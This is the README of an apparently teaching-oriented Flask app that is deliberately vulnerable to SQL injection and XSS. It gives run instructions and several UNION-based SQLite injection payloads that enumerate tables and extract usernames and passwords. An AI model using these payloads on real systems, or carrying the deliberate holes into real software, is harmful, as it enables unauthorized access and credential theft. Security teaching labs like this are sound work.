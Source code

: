# SQL Injection 2 💉🔓
A python flask app that is purposfully vulnerable to SQL injection and XSS attacks

## How to run

Just run `./start-docker.sh` and visit `http://127.0.0.1:5001`

## Notes

* test.sql is just there to help to visualize what is happening with sql queries during the demo
* The search page is vulnerable to SQL injections
* The login page is also vulnerable to SQL injection making it easy to bypass login

## Command Examples

### Check if it can work

- ```juice' UNION SELECT 1,2,3 from sqlite_master WHERE type="table"; --```
- slite_master is a default table in a sqlite database that stores info on each table in the db.

### Get names of tables from master table (sql gives the table info)

- ```juice' UNION SELECT name,sql,3 from sqlite_master WHERE type="table"; --```
- name and sql are columns in sqlite master. name gives the name of the table and sql gives
- sql info for the table (like the columns).

### Get info from the 2 columns and make a third column
```juice' UNION SELECT username,password,3 from employees;--```
